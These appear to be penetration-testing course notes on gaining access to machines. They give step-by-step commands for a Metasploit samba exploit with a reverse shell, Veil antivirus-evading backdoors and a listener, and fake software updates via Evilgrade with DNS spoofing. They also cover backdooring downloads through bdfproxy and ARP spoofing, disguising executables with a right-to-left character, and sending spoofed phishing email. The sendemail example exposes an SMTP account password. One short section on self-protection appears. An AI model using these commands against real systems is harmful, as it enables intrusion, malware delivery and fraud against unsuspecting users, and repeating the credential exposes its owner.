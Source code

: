 Gaining Access
==============

Introduction
------------

Everything is a Computer
^^^^^^^^^^^^^^^^^^^^^^^^

Two main approaches

Server Side

- Do not require user interaction, all we need is a target IP
- Start with information gathering, find open ports, OS, installed services, and work from there

Client Side

- Require user interaction, such as opening a file, a link
- Information gathering is key here, create a trojan and use social engineering to get the target to run it.

Server-Side Attacks
-------------------

- Need an IP Address
- Very simple if target is on the same network (netdiscover or zenmap)
- If target has a domain, then a simple ping will return its IP
- Getting the IP is trickier if the target is a personal computer, might be useless if the target is accessing the internet through a network as the IP will be the router and not the targets, client side attacks are more effective in this case asa reverse connection can be used.

Basic Information Gathering & Exploitation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

- Try default password
- Services might be mis-configured, such as the "r" service. Ports 512, 513, 514
- Some might even contain a back door!
- Code execution vulnerabilities

Metasploit
^^^^^^^^^^

Metasploit is an exploit development and execution tool. It can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks.

You can Google the open ports exploits and copy the exploit name from rapid7.com to get the exploit name.

- `msfconsole` - runs the metasploit console
- `help` - shows help
- `show [something]` - something can be exploits, payloads, auxiliaries or options.
- `use [something]` - use a certain exploit, payload or auxiliary.
- `set [option] [value]` - configure [option] to have value of [value]
- `exploit` - runs the current task

Example:

.. code-block:: bash

    msfconsole
    use exploit/multi/samba/usermap_script
    show options
    set RHOST 10.20.14.204
    show options
    show payloads
    set PAYLOAD cmd/unix/reverse_netcat
    show options
    set LHOST 10.20.14.203
    exploit

Nexpose
^^^^^^^

Vulnerability Management Framework

- Discover open ports and running services
- Find vulnerabilities
- Find exploits
- Verify them
- Generate reports
- Automate scans

Conclusion
^^^^^^^^^^

The general steps are always the same!

1. Discover open ports and running services
2. Find vulnerabilities
3. Find exploits
4. Exploit / verify
5. Report

Client-Side Attacks
-------------------

- Use if server side attacks fail
- If IP is probably useless
- Requires user interaction
- Social engineering can be very useful
- Information gathering is vital

Veil - Framework
^^^^^^^^^^^^^^^^

- A backdoor is a file that gives us full control over the macine that it gets executed on
- Backdoors can be caught by Anti-Virus programs
- Veil is a framework for generating undetectable backdoors

Veil Overview & Generating Backdoor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: bash

    use 1
    list
    use 15
    set LHOST 10.20.14.213
    set LPORT 8080
    options
    set PROCESSORS 1
    set SLEEP 6
    generate
    rev_https_8080

- Google nodistribute
- Upload the file
- See the program being undetected from antivirus programs

Listening for Incoming Connections
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: bash

    msfconsole
    use exploit/multi/handler
    show options
    set PAYLOAD windows/meterpreter/reverse_https
    set LHOST 10.20.14.213
    set LPORT 8080
    show options
    exploit

Delivery Method
^^^^^^^^^^^^^^^

- Put your backdoor file in /var/www/html in Kali
- service apache2 start
- Browse, download and start the exe file on Windows
- Simple method which wont work see below

Windows 10 Fake Updates
^^^^^^^^^^^^^^^^^^^^^^^

- Fake an update for an already installed program
- Install backdoor instead of the update
- Requires DNS spoofing + Evilgrade (a server to serve the update)

1. Download and install Evilgrade

    - Download Evilgrade.zip
    - Go to the downloads and boule click evilgrade.zip to uncompress it.
    - Open a terminal and run the following commands:

.. code-block:: bash

    cd /root/Downloads/evilgrade/
    cpan Data::Dump
    cpan Digest::MD5
    cpan Time::HiRes
    cpan RPC::XML
    cp -r isrcore /etc/perl

Now the tool will work, it might display an error about Gnu.pm
this is a known bug with evil-grade, if its annoying you
the you can get rid of it using the by removing that lib using
the following command

`apt-get remove libterm-readline-gnu-perl`

Just make sure you re-install it after you're done in case it is
needed by other tools

`apt-get install libterm-readline-gnu-perl`

2. Start Evilgrade (`./configure`)
3. Check programs that can be hijacked (`show modules`)
4. Select one (`configure [module]`)
5. Set backdoor location (`set agent [agent location]`)
6. Start Server (`start`)
7. Start dns spoofing and handler

.. code-block:: bash

    # Once in evilgrade:
    cd /opt/evilgrade
    ./evilgrade
    show options
    configure dap
    show options
    set agent /var/www/html/backdoor.exe
    set endsite www.speedbit.com
    show options
    start

    # Become MITM
    bettercap -iface eth0 -caplet /root/spoof.cap
    set dns.spoof.all true
    set.spoof.domains update.speedbit.com
    dns.spoof on

    # Listen for connections
    # Then wait for the user to look for updates

Backdoor Windows 10 Downloads on the Fly
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

- Backdoor any exe the target downloads
- We need to be MITM

1. Set IP Address in config (`leafpad /etc/bdfproxy/bdfproxy.cfg`)

.. code-block:: bash

    proxyMode = transparent
    # Windows
    HOST = 10.0.2.15

2. Start bdfproxy (`bdfproxy`)

.. code-block:: bash

    cd /opt/BDFProxy
    ./bdf_proxy.py

3. Redirect traffic to bdfproxy (`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`)
4. Start listening for connections (`msfconsole -r /usr/share/bdfproxy/bdf_proxy_msf_resource.rc`)
5. Start arp spoofing

Protecting Yourself Against Smart Delivery Methods
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

- Ensure you're not being MITMed - use trusted networks, xarp
- Only download from HTTPS pages
- Check file MD5 after download - http://www.winmd5.com

Social Engineering
------------------

* Gather info about the users
* Build a strategy based on the info
* Build a backdoor based on the info

Maltego
^^^^^^^

Maltego is an information gathering tool that can be used to collect information about anything.

* Target can be a website, company, person, etc.
* Discover entities associated with target
* Display info on a graph
* Come up with an attack strategy

Backdooring any File
^^^^^^^^^^^^^^^^^^^^

* Combine backdoor with any file - generic solution
* Users are more likely to run a pdf, image, or audio file than an executable
* Works well with social engineering
* How?

    * Use a download and execute payload that would:

        * Download a normal file (image, pdf, etc) and display it to the user
        * Download the evil file and execute it in the background

* Use autoit to compile the backdoor file
* Use right to left character (search for character in Kali) and replace .exe with gpj.exe and paste the special character after the name of the file

Fake Emails
^^^^^^^^^^^

* Send fake emails
* Looks like its sent from any address
* Pretend to be a friend, company, boss, etc.
* Friend - Ask them to open a file (image, pdf, etc.)
* Support member - ask to login to control panel using fake login page
* Support member - ask to run a command on a server
* Ask to visit a normal web page
* etc.

.. code-block::

    sendemail -xu jhnwck70@gmail.com -xp CBPr90hgSDUHL2vF -s smtp-relay.sendinblue.com:587 -f "user@company.com" -t "target@company.com" -u "Check out this car" -m "Hey, checkout this car https://url.com/link-to-file-download.jpg" -o message-header="From: Name Surname <name.surname@company.com>"

* Use attached sendmail.php

Beef Framework
^^^^^^^^^^^^^^

Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target. Targets are hooked once they load a hook url

* DNS spoof requests to a page containing the hook
* Inject the hook in brosed pages (need to be MITM)
* Use XSS exploit
* Social engineer the target to open a hook page

Get the user to browse to your beef page

